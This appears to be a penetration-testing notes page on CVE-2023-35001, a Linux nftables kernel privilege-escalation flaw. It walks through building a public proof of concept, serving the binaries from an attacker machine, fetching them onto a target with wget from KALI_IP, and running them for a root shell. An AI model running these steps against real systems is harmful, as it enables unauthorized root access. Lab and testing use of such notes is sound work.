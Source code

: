 # CVE-2023-35001

<mark style="color:purple;">Type:</mark> Kernel Exploit

> Linux Kernel nftables Out-Of-Bounds Read/Write Vulnerability; nft\_byteorder poorly handled vm register contents when CAP\_NET\_ADMIN is in any user or network namespace

## PoC

{% embed url="https://github.com/synacktiv/CVE-2023-35001" %}

### Requirements

In our OS we must have these **2 requirements**:

* C compiler
* Go compiler

```bash
sudo apt install golang-go
```

### Clone repo

Clone the repository with the exploit inside.

```bash
git clone https://github.com/synacktiv/CVE-2023-35001
```



### Build the exploit

Once we clone the repo, enter it and build the exploit with these commands:

```bash
cd CVE-2023-35001
make
```

This will generate these two binaries:

* **wrapper**: A C binary used to enter namespaces
* **exploit**: The actual exploit\


### Transfer and Run the exploit

Now, that we have generated the exploit, transfer it to the target system and run them with correct privs

{% code title="Set a webserver on Kali" %}
```bash
python3 -m http.server 80
```
{% endcode %}

{% code title="On target machine" %}
```bash
# download the binaries
wget http://KALI_IP/exploit
wget http://KALI_IP/wrapper

# set correct privs
chmod +x exploit
chmod +x wrapper

# run the exploit
./exploit
```
{% endcode %}

And now we got a root shell.
